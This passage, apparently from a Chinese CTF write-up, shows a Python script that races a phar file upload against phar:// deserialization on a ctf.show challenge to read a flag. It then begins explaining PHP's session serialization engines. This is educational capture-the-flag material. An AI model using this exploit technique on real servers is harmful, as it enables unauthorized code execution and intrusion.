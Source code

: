 ```python
#!/usr/bin/env python
# -*- coding: UTF-8 -*-

import requests
import threading

flag = False
url = "http://8f6f1872-fd37-4431-a005-55b6b4e1d2a2.challenge.ctf.show/"
data = open('./phar.phar', 'rb').read()

pre_resp = requests.get(url)
if pre_resp.status_code != 200:
    print(url + ' -> nonono')
    exit(1)

def upload():
    global flag
    while not flag:
        requests.post(url+"?fn=phar.phar", data=data)


def read():
    global flag
    while not flag:
        r = requests.post(url+"?fn=phar://phar.phar/", data="")
        if "ctfshow{" in r.text and flag is False:
            print(r.text)
            flag = True

if __name__ == "__main__":
    a = threading.Thread(target=upload)
    b = threading.Thread(target=read)
    a.start()
    b.start()
    a.join()
    b.join()
```

### session反序列化

先说一下 PHP 处理 session 的一些细节信息。

PHP 在存储 session 的时候会进行序列化，读取的时候会进行反序列化。它内置了多种用来序列化/反序列化的引擎，用于存取 `$_SESSION` 数据：

1. `php`: 键名 + `|` + 经过 `serialize()`/`unserialize()` 处理的值。这是现在默认的引擎。
2. `php_binary`: 键名的长度对应的 ASCII 字符 + 键名 + 经过 `serialize()`/`unserialize()` 处理的值
3. `php_serialize`: 直接使用 `serialize()`/`unserialize()` 函数。(php>=5.5.4)

session 相关的信息，可以在 phpinfo 里查到：
